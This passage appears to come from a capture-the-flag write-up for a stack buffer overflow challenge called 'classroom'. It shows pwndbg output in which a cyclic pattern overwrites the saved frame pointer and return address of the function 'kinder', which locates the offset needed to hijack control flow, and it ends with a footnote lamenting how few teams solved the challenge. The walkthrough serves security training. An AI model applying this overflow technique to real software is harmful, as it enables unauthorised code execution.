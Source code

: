 And we get our full payload, unmangled. Excellent! 

Stepping forward until the `ret` instruction and we identify the bytes stored at `$rbp+8` `0x7fffffffe098` being the return address at `ret`: 

```c
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> 
Program received signal SIGSEGV, Segmentation fault.
0x0000000000400aea in kinder ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────── 
 RAX  0x14c
 RBX  0x7fffffffe1c8 —▸ 0x7fffffffe480 ◂— '/home/kidd/Desktop/WORK/bsides24/pwn/classroom'
 RCX  0x7ffff7ea3a1d (read+13) ◂— cmp rax, -0x1000 /* 'H=' */
 RDX  0x14c
 RDI  0
 RSI  0x7fffffffe010 ◂— 0x6161616261616161 ('aaaabaaa')
 R8   0xff00
 R9   7
 R10  7
 R11  0x246
 R12  0
 R13  0x7fffffffe1d8 —▸ 0x7fffffffe4af ◂— 'USER=kidd'
 R14  0x7ffff7ffd000 (_rtld_global) —▸ 0x7ffff7ffe2c0 ◂— 0
 R15  0
 RBP  0x6261616962616168 ('haabiaab')
 RSP  0x7fffffffe098 ◂— 0x6261616b6261616a ('jaabkaab')
 RIP  0x400aea (kinder+410) ◂— ret 
──────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────────────────
   0x400a48 <kinder+248>    jmp    kinder+398                  <kinder+398>
    ↓
   0x400ade <kinder+398>    cmp    dword ptr [rbp - 4], 0
   0x400ae2 <kinder+402>    je     kinder+107                  <kinder+107>
 
   0x400ae8 <kinder+408>    nop    
   0x400ae9 <kinder+409>    leave  
 ► 0x400aea <kinder+410>    ret                                <0x6261616b6261616a>



───────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffe098 ◂— 0x6261616b6261616a ('jaabkaab')
01:0008│     0x7fffffffe0a0 ◂— 0x6261616d6261616c ('laabmaab')
02:0010│     0x7fffffffe0a8 ◂— 0x6261616f6261616e ('naaboaab')
03:0018│     0x7fffffffe0b0 ◂— 0x6261617162616170 ('paabqaab')
04:0020│     0x7fffffffe0b8 ◂— 0x6261617362616172 ('raabsaab')
05:0028│     0x7fffffffe0c0 ◂— 0x6261617562616174 ('taabuaab')
06:0030│     0x7fffffffe0c8 ◂— 0x6261617762616176 ('vaabwaab')
07:0038│     0x7fffffffe0d0 ◂— 0x6261617962616178 ('xaabyaab')
─────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────
 ► 0         0x400aea kinder+410
   1 0x6261616b6261616a
   2 0x6261616d6261616c
   3 0x6261616f6261616e
   4 0x6261617162616170
   5 0x6261617362616172
   6 0x6261617562616174
   7 0x6261617762616176
```

[^Rant]: And ok, yeah, it was not a big event, nor was the CTF any larger. But only 3 solves? What's the play here? Everybody else is killing it out there in CTFs and IRL, and we are doing what exactly? Yes, there are teams from GR that are having success in global events, of course. But how are these teams seeded if in entry level events we are failing at the obvious? How is this not a problem, both for the scene and the security industry altogether?